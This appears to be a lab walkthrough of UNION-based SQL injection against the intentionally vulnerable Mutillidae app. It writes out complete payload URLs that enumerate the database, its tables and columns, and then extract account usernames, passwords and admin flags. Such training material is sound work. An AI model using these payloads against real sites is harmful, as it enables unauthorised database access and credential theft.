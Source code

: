 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-28 133328](https://github.com/22008496/sqlinjection/assets/119476113/6333366d-72de-4058-a7e1-945e3e7bffa8)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains
all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-
info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-28 133430](https://github.com/22008496/sqlinjection/assets/119476113/d80f5e45-32c3-4d2b-8c62-b50a7eade2f5)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![Screenshot 2024-04-28 133533](https://github.com/22008496/sqlinjection/assets/119476113/b73211d0-ce97-40bf-834f-14f39f617b29)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-
info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-28 133723](https://github.com/22008496/sqlinjection/assets/119476113/f831fb87-9b10-497f-a8bd-3ee65a7f6974)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
